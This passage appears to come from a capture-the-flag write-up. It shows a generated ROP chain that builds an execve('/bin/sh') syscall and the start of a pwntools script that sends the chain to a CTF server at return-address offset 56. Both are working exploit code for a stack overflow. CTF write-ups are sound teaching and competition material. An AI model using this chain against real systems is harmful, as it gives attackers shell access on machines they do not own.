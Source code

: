 ```shell
rop += rebase_0(0x00000000000022bf) # 0x00000000004022bf: pop rbx; ret; 
rop += rebase_0(0x00000000000cb0e0)
rop += rebase_0(0x0000000000070f22) # 0x0000000000470f22: mov qword ptr [rbx], r13; pop rbx; pop rbp; pop r12; pop r13; ret; 
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += rebase_0(0x0000000000008cab) # 0x0000000000408cab: pop r13; ret; 
rop += p(0x0000000000000000)
rop += rebase_0(0x00000000000022bf) # 0x00000000004022bf: pop rbx; ret; 
rop += rebase_0(0x00000000000cb0e8)
rop += rebase_0(0x0000000000070f22) # 0x0000000000470f22: mov qword ptr [rbx], r13; pop rbx; pop rbp; pop r12; pop r13; ret; 
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += rebase_0(0x0000000000001821) # 0x0000000000401821: pop rdi; ret; 
rop += rebase_0(0x00000000000cb0e0)
rop += rebase_0(0x00000000000766c6) # 0x00000000004766c6: pop rsi; ret; 
rop += rebase_0(0x00000000000cb0e8)
rop += rebase_0(0x000000000000176b) # 0x000000000040176b: pop rdx; ret; 
rop += rebase_0(0x00000000000cb0e8)
rop += rebase_0(0x000000000004e283) # 0x000000000044e283: pop rax; ret; 
rop += p(0x000000000000003b)
rop += rebase_0(0x000000000001c3fc) # 0x000000000041c3fc: syscall; ret; 
print rop
[INFO] rop chain generated!
```



With a tiny bit of tweeking all that was necessary was to find the correct return pointer overwrite offset and send the rop chain. I used the same technique from Maradona2 to find that this time the return address was at offset 56 on the stack.

So my exploit was:

```python
#!/usr/bin/python3

from pwn import *

binary = ELF('./reto')

local = False

# ret addr offset: 56
if local:
    pp = process("./reto")
else:
    pp = remote("armando.ctf.cert.unlp.edu.ar", 15003)
pp.recvline()
pp.sendlineafter(b'Username: ', b'')

# Gen: ropper --file reto --chain "execve cmd=/bin/sh" --badbytes 0a

from struct import pack

p = lambda x : pack('Q', x)

IMAGE_BASE_0 = 0x0000000000400000 # 6dc586ceff659de75407270f256a5a72c31261df44c0167bae678c5d0ec84606
rebase_0 = lambda x : p(x + IMAGE_BASE_0)
```